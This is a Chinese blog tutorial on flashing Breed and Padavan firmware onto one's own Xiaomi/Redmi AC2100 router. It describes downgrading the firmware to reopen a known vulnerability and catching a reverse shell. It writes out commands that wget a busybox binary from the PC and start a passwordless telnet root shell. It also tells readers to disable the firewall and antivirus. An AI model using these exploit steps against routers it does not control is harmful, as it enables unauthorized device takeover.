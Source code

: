 ```yaml
---
title: 小米AC2100路由器刷入Padavan固件
date: 2021-02-14 12:37:37
tags: [路由器,日常折腾]
categories: 日常折腾
---
```

&emsp;&emsp;注：小米AC2100，红米AC2100皆可使用。  
&emsp;&emsp;注：开始前请记好宽带拨号账号密码。

# 起因
&emsp;&emsp;最近发现只要一打开迅雷下载，即使在下载速度只有几K的情况下，路由器仍然会断网，有线Wifi全挂掉。  
&emsp;&emsp;看别人说是因为CPU跑满了，路由器宕机了。  
&emsp;&emsp;遂决定刷一下固件，选择了Hihoy的Padavan固件。

# 系统环境设置
## 1. 开启Telnet
&emsp;&emsp;`控制面板-程序-启用或关闭Windows功能`，启用`Telnet客户端`。

![启用Telnet](https://pic.lufer.cc/images/2021/03/05/ysxi7j.png)

## 2. 关闭防火墙和杀毒软件
&emsp;&emsp;关闭WindowsDefender防火墙和杀毒软件（如果有）。
## 3. 禁用其他网卡
&emsp;&emsp;只留下连接路由器的网卡接口。

# 准备软件
&emsp;&emsp;因为刷机过程就断网了，所以这些软件都要提前下好。
## 1. 下载路由器刷机工具
&emsp;&emsp;链接：https://pan.baidu.com/s/1cOQdsMNr4xqi3h8fqqMfbQ 提取码：8kw8。   
&emsp;&emsp;下载完成后解压，并安装文件夹下的`WinPcap_4_1_3.exe`。
## 2. 安装Winscp
&emsp;&emsp;https://winscp.net/eng/download.php
## 3. 安装Putty
&emsp;&emsp;https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
## 4. 路由器降级
&emsp;&emsp;由于路由器新版本固件封掉了刷机漏洞，直接刷是刷不进去的，会向下面这样抛异常（图片来自网络，我自己忘了截图了）。

![高版本固件异常图](https://pic.lufer.cc/images/2021/03/05/ysxgv8.png)

&emsp;&emsp;所以要先刷固件回到低版本，下载链接放在下面。  
&emsp;&emsp;链接：https://pan.baidu.com/s/16AxC6AGIiIOBq9b96xAS-w 提取码：eb84。 

## 5. 最新的Padavan刷机包

&emsp;&emsp;https://opt.cn2qq.com/padavan/

&emsp;&emsp;可以在里面搜索2100。小米路由器下载`R2100_3.4.3.9-099.trx`，红米路由器下载`RM2100_3.4.3.9-099.trx`。

# 开始刷入
## 1. 路由器降级
&emsp;&emsp;首先到路由器设置页面，在手动升级里面选择之前下载的低版本刷机包，随后会自动刷入并重启。

![手动降级固件](https://pic.lufer.cc/images/2021/03/05/ysxbvT.png)

## 2. 修改DHCP
&emsp;&emsp;在成功降级后，进入路由器设置页面，将路由器的地址设置为`192.168.31.1`。

## 3. 插线
&emsp;&emsp;将路由器的网线都拔掉，然后将WAN口连接到LAN1口（如果后面发现有问题，可以插到LAN3试一下），中间的LAN口连接电脑。

## 4. 设置电脑IP
&emsp;&emsp;将电脑的IP手动设置为`192.168.31.177`,子网掩码`255.255.255.0`，网关`192.168.31.1`。

## 5. 设置拨号
&emsp;&emsp;打开路由器的上网设置页面，上网方式设置为`PPPOE`，账号和密码都设置为123。

## 6. 刷入Breed
&emsp;&emsp;双击打开`一键开启telnet.bat`（不用管理员运行）。
![解锁工具](https://pic.lufer.cc/images/2021/03/05/yszaR0.png)

&emsp;&emsp;按回车，会打开测试PPPOE数据包的窗口

![成功监测到数据包](https://pic.lufer.cc/images/2021/03/05/yszdzV.png)

&emsp;&emsp;如果这里抛异常，路由器要降级固件。  
&emsp;&emsp;如果没有异常，返回第一个窗口按y，注意要输入小写。

&emsp;&emsp;随后会打开反弹shell窗口，等到提示`connect to [192.168.31.177] from (UNKNOWN) [192.168.31.1] 31290` 就代表反弹成功。

![反弹成功](https://pic.lufer.cc/images/2021/03/05/yszRRx.png)

&emsp;&emsp;这时打开`开启telnet命令.txt`,复制其中的内容，也就是下面这行

>cd /tmp&&wget http://192.168.31.177:8081/busybox&&chmod a+x ./busybox&&./busybox telnetd -l /bin/sh

&emsp;&emsp;粘贴到窗口中，按ctrl+V是无效的，点右键即可粘贴，如果不行就在标题栏点右键粘贴，随后回车，出现如下图提示即代表Telnet解锁成功。

![解锁Telnet](https://pic.lufer.cc/images/2021/03/05/yySSeg.png)

&emsp;&emsp;随后打开命令提示符，粘贴如下代码运行，请逐个粘贴运行。

>telnet 192.168.31.1  
>wget http://192.168.31.177:8081/r3g.bin&&nvram set uart_en=1&&nvram set bootdelay=5&&nvram set flag_try_sys1_failed=1&&nvram commit  
>mtd -r write r3g.bin kernel1

&emsp;&emsp;如果出现如下图的提示，则代表Breed刷入成功了，此时路由器会自动重启。

![Breed刷入成功](https://pic.lufer.cc/images/2021/03/05/yySmmF.png)

## 7. 刷入Padavan

&emsp;&emsp;在路由器重启成功后，将电脑的IP地址改为自动获取，并拔掉路由器的电源，按住Reset按键并插入电源，10s后松开按钮即可。

&emsp;&emsp;注意，这里要检查电脑获取到的IP地址是否为`192.168.1.X`，如果是`169`开头的IP地址，代表自动获取失败，需要将IP地址手动设置为`192.168.1.X`网段，网关设置为`192.168.1.1`。

&emsp;&emsp;随后打开Winscp，连接192.168.1.1，协议是SCP，账号：root 或 admin 密码：admin。

&emsp;&emsp;然后上最上面的三点，切到主目录后，选择tmp文件夹，放进之前下载的最新固件`R2100_3.4.3.9-099.trx`。

&emsp;&emsp;完成后关闭Winscp，再打开Putty，输入192.168.1.1，账号：root 或 admin 密码：admin。

&emsp;&emsp;然后在出现的OP窗口里执行下边这句，注意要改成对应的文件名：

>mtd -r write /tmp/R2100_3.4.3.9-099.trx kernel

&emsp;&emsp;此时等待刷入padavan固件，完成后路由器会重启。

# 恢复现场
&emsp;&emsp;将网线插回正常状态，随后将电脑设置为自动获取IP，打开192.168.2.1 账号：root 或 admin 密码：admin 进入路由设置页面。

&emsp;&emsp;至此完成了Padavan的刷入，在`网络地图`里面设置好宽带的拨号，然后设置好wifi名称和密码即可。
